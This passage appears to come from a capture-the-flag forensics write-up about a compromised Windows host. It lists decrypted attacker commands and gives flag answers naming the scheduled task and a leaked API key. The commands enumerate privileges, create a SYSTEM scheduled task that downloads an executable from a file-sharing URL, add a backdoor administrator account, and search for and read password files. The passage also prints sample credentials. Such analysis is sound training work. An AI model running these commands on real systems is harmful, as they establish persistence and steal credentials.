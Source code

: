 ```
Decrypted Message: whoami /priv
Decrypted Message: tasklist /v
Decrypted Message: wmic qfe get Caption,Description,HotFixID,InstalledOn
Decrypted Message: schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
Decrypted Message: net user devsupport1 P@ssw0rd /add
Decrypted Message: net localgroup Administrators devsupport1 /add
Decrypted Message: net localgroup Administrators devsupport1 /add
Decrypted Message: reg query HKLM /f "password" /t REG_SZ /s
Decrypted Message: dir C:\ /s /b | findstr "password"
Decrypted Message: dir C:\ /s /b | findstr "password"
Decrypted Message: more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
Decrypted Message: more C:\backups\credentials.txt
```

### Leaked Credentials

```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt
[Database Server]
host=db.internal.korptech.net
username=dbadmin
password=rY?ZY_65P4V0

[Game API]
host=api.korptech.net
api_key=sk-3498fwe09r8fw3f98fw9832fw

[SSH Access]
host=dev-build.korptech.net
username=devops
password=BuildServer@92|7Gy1lz'Xb
port=2022

C:\Users\dev-support\Desktop>
```

## Step 6: Final Flag Answers

After decrypting the messages, we determined the following:

**Q5:** The scheduled task created by the attacker is named `Synchronization`.

**Q6:** The API key was leaked from the file C:\backups\credentials.txt: `sk-3498fwe09r8fw3f98fw9832fw`

## Conclusion
